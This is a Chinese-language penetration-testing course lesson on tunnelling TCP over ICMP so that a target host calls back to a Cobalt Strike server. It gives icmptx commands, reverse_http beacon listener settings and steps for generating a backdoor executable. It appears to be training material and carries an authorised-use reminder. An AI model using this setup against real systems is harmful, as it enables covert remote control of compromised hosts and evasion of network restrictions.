# 网络安全系统教程：P83：70. ICMP隧道转发TCP上线CS 🛠️



在本节课中，我们将学习如何利用ICMP隧道技术，将TCP流量封装在ICMP数据包中进行转发，并最终实现目标主机上线到Cobalt Strike（CS）控制端。这是一种在网络限制环境下建立隐蔽通信通道的实用技术。



---

上一节我们介绍了ICMP隧道的基本原理和工具使用。本节中，我们来看看如何具体配置，以实现通过ICMP隧道转发TCP流量，让目标主机成功连接到Cobalt Strike服务器。

## 核心步骤概述



ICMP隧道转发TCP流量上线CS的流程，与之前介绍的MSF上线流程类似。你可以根据自己熟悉的工具选择CS或MSF。以下是实现此目标的主要步骤：

1.  启动ICMP隧道服务端。
2.  在目标主机启动ICMP隧道客户端。
3.  在CS服务器上创建对应的监听器（Listener）。
4.  生成并执行Payload。

## 详细配置流程

### 1. 启动服务端与客户端

首先，需要在攻击机（控制端）启动ICMP隧道服务端，并在目标主机（受控端）启动客户端。其命令与之前课程中介绍的一致。

服务端启动命令示例（监听ICMP流量并转发到本地TCP端口）：
```bash
./icmptx -s <客户端连接端口>
```
客户端启动命令示例（连接服务端，并将本地TCP端口流量封装进ICMP）：
```bash
./icmptx -c <服务端IP> <服务端端口>
```
同时，需要开启TCP端口转发，将隧道客户端接收的TCP流量转发到CS监听的端口。





### 2. 配置Cobalt Strike监听器



这是与MSF配置不同的关键部分。我们需要在Cobalt Strike团队服务器上创建一个特定的监听器。



以下是创建监听器的配置要点：
*   **Payload类型**：选择 `windows/beacon_https/reverse_http`。
*   **HTTP Hosts**：填写 `127.0.0.1`（本地回环地址）。
*   **HTTP Port (C2)**：填写ICMP隧道**客户端**所监听的TCP端口（例如 `8899`）。CS生成的Payload会尝试连接这个地址和端口。
*   **HTTP Port (Bind)**：填写你希望CS团队服务器**实际监听**的端口（例如 `7777`）。ICMP隧道服务端需要将接收到的流量转发到这个端口。



**核心概念解释**：
*   **C2 Port**：是Payload（木马）回连的地址和端口，即ICMP隧道客户端的入口。
*   **Bind Port**：是CS团队服务器真正等待连接的端口，即ICMP隧道服务端的出口目标。





配置完成后，CS会通过这个监听器生成一个反向Shell的Payload（例如一个.exe文件）。



### 3. 生成与执行Payload

在Cobalt Strike中，根据目标系统（如Windows x64）生成对应的可执行Payload。
```bash
# 在Cobalt Strike的Payload生成界面选择
攻击 -> 生成后门 -> Windows可执行文件
```
将生成的Payload文件在目标主机上执行。成功后，目标主机的网络流量会通过ICMP隧道转发，最终在Cobalt Strike控制台看到该主机上线。



---



## 课后实践与总结



本节课我们一起学习了利用ICMP隧道转发TCP流量，使目标主机上线到Cobalt Strike的具体步骤。关键在于理解隧道客户端与服务端的端口映射关系，以及在CS中正确配置监听器的C2端口和Bind端口。



**课后作业**：
请根据课程PPT和上述步骤，亲自动手完成整个实验流程。这包括：
*   搭建ICMP隧道。
*   在Cobalt Strike上配置监听器。
*   生成并执行Payload，验证上线是否成功。





**注意事项**：
*   部分实验可能需要域名或公网IP，请根据自身实验环境调整。
*   在国内进行操作时，请务必遵守法律法规，仅在授权的测试环境中进行练习。



掌握这项技术有助于你在复杂的网络环境中建立稳定的控制通道。如果实践过程中遇到问题，可以回顾课程内容或与同学讨论。本节课到此结束。